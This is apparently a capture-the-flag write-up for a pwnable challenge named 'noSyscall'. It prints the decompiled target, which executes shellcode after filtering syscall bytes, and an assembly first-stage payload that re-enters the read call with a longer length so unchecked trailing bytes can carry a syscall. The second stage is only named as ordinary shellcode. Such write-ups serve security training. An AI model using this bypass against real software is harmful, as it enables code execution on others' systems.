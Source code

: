 # pwnable_noSyscall

syscall(0xf 0x5) cannot be used! Therefore, I controlled the flow to make syscall not restrained. 
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  signed int i; // [rsp+Ch] [rbp-14h]
  void *buf; // [rsp+10h] [rbp-10h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  buf = mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL);
  if ( buf == (void *)-1LL )
  {
    puts("mmap failed");
    exit(1);
  }
  alarm(0xAu);
  read(0, buf, 0x400uLL);
  for ( i = 0; i <= 1022; ++i )
  {
    if ( *((_BYTE *)buf + i) == 0xF && *((_BYTE *)buf + i + 1) == 5 )
    {
      puts("No syscall byte :P");
      exit(-1);
    }
  }
  ((void (__fastcall *)(_QWORD, void *))buf)(0LL, buf);
  return 0;
}
```

payload1: 
r12 has the address of the text area, so using r12, I made the flow go back to .text+0x99D, and made the edx 0x402. 

.text:0000000000000998                 mov     edx, 400h       ; nbytes
.text:000000000000099D                 mov     rsi, rax        ; buf
.text:00000000000009A0                 mov     edi, 0          ; fd
.text:00000000000009A5                 call    read
```
payload1
mov edx, 0x402
add r12, 0x1cd
mov rax, rsi
call r12
```

Now, the second input can be 402 bytes in length, and buf+401, buf+402 bytes will not be checked. Therefore, we can write 0x0f to buf+401 and 0x05 to buf+402.

**payload2**=usual x64 shellcode!


